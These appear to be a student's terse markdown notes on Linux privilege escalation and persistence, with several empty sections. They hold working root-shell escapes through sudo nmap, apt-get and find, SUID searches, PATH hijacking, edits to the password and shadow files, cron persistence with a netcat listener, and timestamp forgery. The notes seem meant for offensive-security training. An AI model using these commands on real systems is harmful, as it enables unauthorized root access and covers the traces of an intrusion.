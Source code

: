 ## Sudo
```

Commands that can access the contents of other files
Commands that download files
Commands that execute other commands (i.e. editors)
Dangerous commands

If you can edit the /etc/sudoers it is priv. escalation

echo 'os.execute ("/bin/bash")' > /tmp/escape.nse
chmod +x /tmp/escape.nse
sudo nmap --script=/tmp/escape.nse

```

## SUID/GUID
```

Changes Prmissions when you run said file?

```

## Insecure Permissions 
```

CRON:
can run as root(give it our own commands to run as root)

World-writable files/directories:
/tmp -- /var/tmp?
**Could have root privileges**
find / -type f -perm /2 -o -type d -perm /2 -o 2> /dev/null

Dot '.' in PATH:
write a script that is named common command(ls) and it will run that script.

vim ls
#1/bin/bash
whoami

chmod +x ls

```

## Adding or Hijacking A user account
```

edit /etc/passwd -- /etc/shadow

```

## Boot
```



```

## CRON Persistance
```

run command as root(open a nc listener)

```

## Kernel Modules
```

Systemd, syslog, etc.
services

```

## Timestamps
```

touch -c -t 201603051015 1.txt (explicit)
touch -r 3.txt 1.txt (refrence file)

```

## Remote Logging
```

grep "IncludeConfig" /etc/rsyslog.conf

```

## DEMO
```

Sudo:
apt-get
GTFOBINS(search for apt-get)
sudo apt-get (copy & paste)
!/bin/sh

SUID/GUID:
find / -perm /4000 -ls 2> /dev/null -- SUID
find / -perm /2000 -ls 2> /dev/null -- SGID
***find***
sudo find . -exec /bin/sh -p \; -quit

World Writable Directories:
find / -type d -perm /2 2>/dev/null
(/dev/shm)(/var/tmp)(/tmp)

```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

